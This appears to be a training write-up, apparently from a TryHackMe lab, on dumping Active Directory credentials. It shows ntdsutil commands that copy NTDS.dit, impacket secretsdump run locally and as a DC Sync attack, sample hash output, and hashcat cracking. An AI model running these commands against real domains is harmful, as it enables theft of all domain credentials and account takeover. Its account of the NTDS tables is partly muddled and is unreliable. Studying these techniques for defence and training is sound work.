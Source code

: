 --- ---

<h2>General</h2>

NTDS Domain Controller

New Technologies Directory Services (NTDS) is a database containing all Active Directory data, including objects, attributes, credentials, etc. The NTDS.DTS data consists of three tables as follows:

-   Schema table: it contains types of objects and their relationships.
-   Link table: it contains the object's attributes and their values.
-   Data type: It contains users and groups.

NTDS is located in`C:\Windows\NTDS` by default, and it is encrypted to prevent data extraction from a target machine. Accessing the NTDS.dit file from the machine running is disallowed since the file is used by Active Directory and is locked. However, there are various ways to gain access to it.

It is important to note that decrypting the NTDS file requires a system Boot Key to attempt to decrypt LSA Isolated credentials, which is stored in the `SECURITY` file system. Therefore, we must also dump the security file containing all required files to decrypt.

---

<h2>Commands</h2>

<h3>Ntdsutil</h3>  
Ntdsutil is a Windows utility to used manage and maintain Active Directory configurations. It can be used in various scenarios such as 

-   Restore deleted objects in Active Directory.
-   Perform maintenance for the AD database.
-   Active Directory snapshot management.
-   Set Directory Services Restore Mode (DSRM) administrator passwords.

For more information about Ntdsutil, you may visit the Microsoft documentation [page](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753343(v=ws.11)).

- **Local Dumping (No Credentials)**
	This is usually done if you have no credentials available but have administrator access to the domain controller. Therefore, we will be relying on Windows utilities to dump the NTDS file and crack them offline. As a requirement, first, we assume we have administrator access to a domain controller. 
	
	To successfully dump the content of the NTDS file we need the following files:
	
	-   C:\Windows\NTDS\ntds.dit
	-   C:\Windows\System32\config\SYSTEM
	-   C:\Windows\System32\config\SECURITY
	
	The following is a one-liner PowerShell command to dump the NTDS file using the Ntdsutil tool in the `C:\temp` directory.
	
	Dumping the content of the NTDS file from the Victim Machine
	
	```shell-session
	powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
	```
	
	Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which contain the three files we need. Transfer them to the AttackBox and run the secretsdump.py script to extract the hashes from the dumped memory file.
	
	Extract hashes from NTDS Locally
	
	```shell-session
	user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
	```


- **Remote Dumping (With Credentials)**
	In the previous section, we discussed how to get hashes from memory with no credentials in hand. In this task, we will be showing how to dump a system and domain controller hashes remotely, which requires credentials, such as passwords or NTLM hashes. We also need credentials for users with administrative access to a domain controller or special permissions as discussed in the DC Sync section.
	
	DC Sync
	
	The DC Sync is a popular attack to perform within an Active Directory environment to dump credentials remotely. This attack works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:
	
	-   Replicating Directory Changes
	-   Replicating Directory Changes All
	-   Replicating Directory Changes in Filtered Set  
	    
	
	An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync. For more information about the DC Sync attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 2).
	
	The Persisting AD room uses the Mimikatz tool to perform the DC Synchronisation attack. Let's demonstrate the attack using a different tool, such as the Impacket SecretsDump script. 
	
	Performing the DC Sync Attack
	
	```shell-session
	user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.65.204 
	Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
	
	Password:
	[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
	[*] Using the DRSUAPI method to get NTDS.DIT secrets
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
	```


Let's explain the command a bit more.

-   the `-just-dc` argument is for extracting the NTDS data.
-   the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

Note if we are interested to dump only the NTLM hashes, then we can use the `-just-dc-ntlm` argument as follows,

The DC Sync Attack to Dump NTLM Hashes

```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm THM.red/<AD_Admin_User>@10.10.65.204
```

Once we obtained hashes, we can either use the hash for a specific user to impersonate him or crack the hash using Cracking tools, such `hashcat`. We can use the hashcat `-m 1000` mode to crack the Windows NTLM hashes as follows:

Performing the DC Sync Attack

```shell-session
user@machine$ hashcat -m 1000 -a 0  /path/to/wordlist/such/as/rockyou.txt
```